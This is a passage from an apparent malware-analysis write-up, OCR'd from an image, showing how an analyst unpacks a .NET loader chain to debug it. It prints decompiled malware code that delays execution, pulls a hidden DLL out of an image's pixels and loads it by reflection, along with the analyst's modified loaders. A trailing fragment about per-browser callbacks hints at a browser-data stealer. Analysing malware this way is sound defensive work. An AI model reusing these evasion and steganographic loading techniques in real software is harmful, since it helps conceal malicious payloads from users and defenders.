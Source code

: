 ```csharp
          type,
          new object[]
          {
              StrongNameMembershipCondition.ReadOnlyList,
              StrongNameMembershipCondition.PropagationFlags,
              "PowerPoint_Tools"
          }
      }
  }, null, null);
  return 23;
}
```

Note that the code is almost identical to the original one, the only difference is that instead of loading from the bytes retrieved from the .exe’s resources, we load our (unpacked) bytes that are now on disk (DLL1, a.k.a. dump1MaybeLoader_Slayed.dll).

To confirm it works, we now put a breakpoint in the correct method that we found previously (“ek”), and then start debugging the main .exe. If the debugger breaks on our breakpoints what we’ve done so far is correct. And indeed, it works.
We can now do the same for DLL 2.

We know that DLL1 loads DLL2 as shown in the following code:
#### Code 13 – DLL1 loads DLL2 by taking bytes from a picture (stenography)
```csharp
public static void tR(string string_0, string string_1, string string_2)
{
  Random random = new Random();
  Thread.Sleep(random.Next(49000, 55000));
  Bitmap bitmap_ = ek.RV(string_0, string_2);
  byte[] array = ek.SW(ek.iS(bitmap_), string_1);
  Assembly assembly = (Assembly)typeof(Assembly).InvokeMember("Load", BindingFlags.InvokeMethod, null, null, new object[]
  {
      array
  });
  Type type = assembly.GetTypes()[20];
  MethodInfo methodInfo = type.GetMethods()[5];
  methodInfo.Invoke(0, null);
  Environment.Exit(0);     
```

We previously already dumped and unpacked DLL2. So now, we can modify the “tR” function to load our unpacked DLL2 from disk, similar to what we’ve done in  **Code 12**:
#### Code 14 – Modified DLL1 “tR” function so it loads our unpacked DLL2 instead of the original bytes
```csharp
public static void tR(string string_0, string string_1, string string_2)
{
  ek.SW(ek.iS(ek.RV(string_0, string_2)), string_1);
  Assembly.LoadFrom(Path.Combine(AppDomain.CurrentDomain.BaseDirectory, "dump2MaybeMalw_Slayed.dll")).GetTypes()[20].GetMethods()[5].Invoke(0, null);
  Environment.Exit(0);
}
```


[15]:  same as Callbacks[0] but specific to Pale Moon.
[16]: same as Callbacks[0] but specific to Waterfox.